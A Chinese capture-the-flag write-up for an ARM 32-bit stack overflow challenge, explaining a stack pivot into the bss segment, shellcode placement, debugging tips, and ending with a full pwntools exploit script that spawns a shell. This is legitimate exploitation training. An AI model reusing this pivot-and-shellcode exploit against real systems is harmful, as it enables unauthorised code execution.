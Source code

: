 经过调试发现，这个fp距离我们输入起始的地址偏移为100,这就意味着我们需要填充100个垃圾数据，然后来控制fp以及pc。

因此第一次输入的时候，控制fp，让其为bss段地址（迁移的时候bss段尽量抬高），然后将返回地址read地址，再跑一次，让我们的第二次payload输入到bss段。

**arm架构（32位）的bss段是可执行的，尽管用vmmap看的是可写不可执行（但是布置进去的shellcode确实可以执行）**

因此我们就要把shellcode布置在bss段。这道题是十分锻炼自主的调试能力的，可以看见我的exp是在shellcode前面布置了两个内容，这里我并不想解释原因。最开始我自己做这道题的时候并没有写这两个内容，当时我认为直接把bss段写shellcode就行，然后控制PC指针执行过去，**事实上这样做是错误的**。原因请自主调试，这里考察了自主调试来布局payload（如果你可以眼睛看出来payload整体布局的话，当我什么都没说），如果连这里到最后都不理解而且还稀里糊涂的交了flag的话，那做这道题是毫无意义的。

大致思路就是这样（第二次输入布置shellcode，然后控制PC寄存器，将其指向shellcode的位置）剩下的具体细节真的没有办法记录，因为剩下的布局都是一点一点调试出来的。

## 关于对调试能力的总结：

我这里说一下我从刚开始学pwn，到现在也刚好是四个月了。总结了一下的调试经验（有可能在各位师傅面前算是班门弄斧了，但这依然是对这四个月所掌握的调试能力的一个记录）。

第一，你要时刻清楚你自己想要看的内容以及自己卡在了哪里

第二，在调试的过程中，遇到卡住的地方，要思考为什么会这样。

第三，在锻炼调试能力的时候，刚开始有的地方可能不知道卡住的原因是什么，建议找一份可以打通（和你思路相近的）的exp，去调试一下，再反复对比自己exp的动态调试，这样很容易找到问题。

第四，就是可能你认为你的思路很对，但就是打不通，而别人的思路都和你的不一样，**由衷建议，不要放弃你的思路，到最后无非是两种可能，你通过坚持以及思考打通了自己的exp，又或者是你通过反复调试，最后发现自己的思路是错误的，不可行的。但其实不论结果，这个坚持的过程已经让你的调试能力有了不小的进步。**



## EXP

```python
#coding:utf-8
from pwn import *
context(arch='arm',os='linux',log_level='debug')
#p=remote('node4.buuoj.cn',26705)
#p=process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./armup_buu"])
p=process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./armup_buu"])
e=ELF('./armup_buu')
bss_addr=0x21000+0x600
read_addr=0x0001052C
offset=100
sleep(0.2)
payload=offset*'a'+p32(bss_addr+0x68)+p32(read_addr)#因为sub减去了0x68，所以这里提前加上0x68
p.send(payload)
sleep(0.2)
shellcode=p32(0)+p32(bss_addr+8)+asm(shellcraft.sh())
payload=shellcode
payload=payload.ljust(0x64,'\x00')
payload+=p32(bss_addr+4)+p32(0x10548)#bss_addr+4是将sp设置成bss_addr（不过这一步只是将参数给R11，将sp赋值是下面的操作）    将pc设置为0x10548的目的是再执行一遍 SUB     SP, R11     POP     {R11,PC}
#这样来修改sp的值，如果不修改sp的值的话，执行shellcode的时候，有个指令会将栈里（此时是bss段）的值修改，从而导致shellcode执行失败。
#上述的内容用一句话说就是，要将栈迁移到执行流的地方。不然shellcode会把自身给破坏了... 要是不相信的话，可以不要这两个指令，然后调试一下，就明白咋回事了
p.send(payload)
p.interactive()
```

# 尾声：

这次学习了arm架构下的pwn题，这意味着在学习pwn的过程中，对于栈的学习已经到了尾声，之后的打算是再学习一下mips架构下的pwn题，然后再练几道稍微难点的栈题，就准备进入堆的部分了。
